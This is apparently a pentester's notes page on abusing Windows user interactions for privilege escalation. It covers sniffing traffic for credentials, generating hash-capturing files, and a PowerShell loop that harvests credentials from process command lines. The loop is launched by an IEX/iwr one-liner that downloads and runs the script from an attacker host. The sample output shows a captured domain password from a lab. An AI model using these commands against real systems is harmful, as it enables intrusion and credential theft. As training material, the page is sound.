

repository: amandaguglieri/hackinglife · page: user-interaction-windows/index.html · generator: mkdocs

---
title: Abusing Windows User interactions
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege
  - escalation
  - windows
---
# Abusing Windows User interactions

Users are sometimes the weakest link in an organization. 

## Traffic Capture

It is always worth running `tcpdump` or `Wireshark` for a while to see what types of traffic are being passed over the wire and if we can see anything interesting.

- Wireshark: While not highly likely, if `Wireshark` is installed on a box that we land on, it is worth attempting a traffic capture to see what we can pick up. Unprivileged users may be able to capture network traffic, as the option to restrict Npcap driver access to Administrators only is not enabled by default. 
- The tool [net-creds](https://github.com/DanMcInerney/net-creds) can be run from our attack box to sniff passwords and hashes from a live interface or a pcap file.


Tool for generating malicious files:

[https://github.com/xct/hashgrab](https://github.com/xct/hashgrab)

```
# Install
git clone https://github.com/xct/hashgrab.git

# Generate the files that you will upload to the share indicating as ip the ip where you would like to relay the authentication
python3 hashgrab.py <ip> <output> 
```


## Process Command Lines

When getting a shell as a user, there may be scheduled tasks or other processes being executed which pass credentials on the command line. We can look for process command lines using something like this script below.  It captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.

```shell-session
while($true)
{
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

#### Running Monitor Script on Target Host

We can host the script on our attack machine and execute it on the target host as follows.

```powershell-session
 IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```

This is successful and reveals the password for the `sqlsvc` domain user, which we could then possibly use to gain access to the SQL02 host or potentially find sensitive data such as database credentials on the `backups` share.

Output: 

```powershell-session
InputObject                                           SideIndicator
-----------                                           -------------
@{CommandLine=C:\Windows\system32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}} =>      
@{CommandLine=“C:\Windows\system32\cmd.exe” }                          =>      
@{CommandLine=\??\C:\Windows\system32\conhost.exe 0x4}                      =>      
@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>       
@{CommandLine=“C:\Windows\system32\backgroundTaskHost.exe” -ServerName:CortanaUI.AppXy7vb4pc2... <=
```
